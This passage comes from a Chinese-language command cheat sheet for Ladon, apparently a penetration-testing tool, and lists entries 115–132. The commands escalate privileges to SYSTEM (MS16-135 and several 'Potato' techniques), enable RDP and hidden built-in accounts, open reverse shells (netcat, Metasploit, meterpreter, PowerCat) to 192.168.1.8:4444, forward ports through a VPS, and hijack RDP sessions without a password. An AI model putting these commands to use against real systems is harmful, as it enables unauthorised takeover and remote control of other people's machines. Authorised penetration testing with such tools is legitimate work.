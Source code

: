```

##### 115 Runas 模拟用户执行命令
Ladon Runas user pass cmd

##### 116 MS16135提权至SYSTEM
Ladon ms16135 whoami

##### 117 BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline

##### 118 SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline

##### 119 EfsPotato Win7-2019提权(服务用户权限提到system)
Ladon EfsPotato whoami

##### 120 Open3389一键开启3389
Ladon Open3389

##### 121 激活内置管理员Administrator
Ladon ActiveAdmin

##### 122 激活内置用户Guest
Ladon ActiveGuest


### 反弹Shell
##### 123 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##### 124 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##### 125 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter

##### 126 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##### 127 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##### 128 反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd
Ladon PowerCat 192.168.1.8 4444 psh

##### 129 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp
Ladon PowerCat 192.168.1.8 4444 psh udp

##### 130 netsh本机888端口转发至112的22端口
Ladon netsh add 888 192.168.1.112 22

##### 131 PortTran端口转发(3389例子)
VPS监听: Ladon PortTran 8000 338
目标转发: Ladon PortTran 内网IP 3389 VPS_IP 8000
本机连接: mstsc VPS_IP:338


### 本机执行
##### 132 RDP桌面会话劫持（无需密码）
Ladon RdpHijack 3
Ladon RdpHijack 3 console
```